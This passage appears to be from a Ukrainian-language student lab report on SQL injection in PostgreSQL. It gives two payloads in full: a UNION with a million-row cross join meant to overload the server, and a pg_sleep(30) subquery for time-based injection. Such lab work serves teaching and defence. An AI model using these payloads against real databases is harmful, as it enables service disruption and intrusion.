 ### SQL-ін'єкція підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер"

Приклад SQL-ін'єкції підкласу "Включення додаткового запиту з декартовим перемноженням підвищення навантаження на сервер":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT a1, cast(a1 as varchar) as name, current_date + a1 as bd FROM (SELECT generate_series a1 FROM generate_series(1, 1000)) t1 CROSS JOIN (SELECT * FROM generate_series(1, 1000) t2) t3 -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/screenshots/1.4.2.1.png)

### SQL-ін'єкція підкласу "Включення підзапиту зі сплячим процесом"

Приклад SQL-ін'єкції підкласу "Включення підзапиту зі сплячим процесом":<br>
```SELECT * FROM change_data(1,'Petrov'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');```<br>
![Результат SQL-ін'єкції](Laboratory-work-8/screenshots/1.4.2.2.png)